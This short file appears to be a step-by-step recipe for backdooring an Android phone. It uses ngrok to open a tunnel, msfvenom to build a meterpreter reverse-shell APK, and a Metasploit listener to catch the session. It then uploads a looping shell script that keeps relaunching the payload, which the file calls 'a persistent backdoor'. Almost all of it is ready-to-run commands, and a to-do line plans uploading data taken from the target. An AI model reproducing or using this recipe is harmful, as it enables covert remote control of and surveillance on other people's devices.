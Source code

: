 ########################################      BY DEUS EX MACHINA      ##################################################
##### register and set up ngrok from the instructions on the site
##### go to the direcory in which ngrok is  in the type"
./ngrok tcp $port 
##### where $port is the port you want to open for using msfvenom on your pc


##### in your terminal, msfvenom terminal or metasploit terminal, type

msfvenom -p android/meterpreter/reverse_tcp LHOST=$ipaddress LPORT=$port R>payloadname.apk
##### where $ipaddress is the ip address of the target device and $lport is the port you opened on your device.
##### now go ahead to type the following

msfconsole -q \
use exploit/multi/handler \
set PAYLOAD android/meterpreter/reverse_tcp \
set LHOST 0.0.0.0 \
set LPORT $port \
run 
##### now you can go ahead to install the exploit on the device and open it and you will see a metapreter session in your terminal where you can run your commands
#next we will run a script to keep our exploit running


##### create shell script the following shell script:
#!/bin/sh \
while : \
do am start --user 0 -a android.intent.action.MAIN -n com.metasploit.stage/.MAinActivity \
sleep 10 \
done 

##### save the script on your machine and now in your meterpreter session type these

shell \
cd /sdcard \
upload ~/path 
##### where ~/path is the location of the shell script you have created on your machine
##### no we are done uploading the script to the target device, we need to run it by this command

nohup sh autostart.sh
##### our script is now running. we can now exit with:
CTRL + C \
Y 
##### now we have a persistent backdoor in the system

##### To do
- offline operation on phone and information uploaded from target on connect

########################################      KEEP IT AS RECEIVED      ##################################################


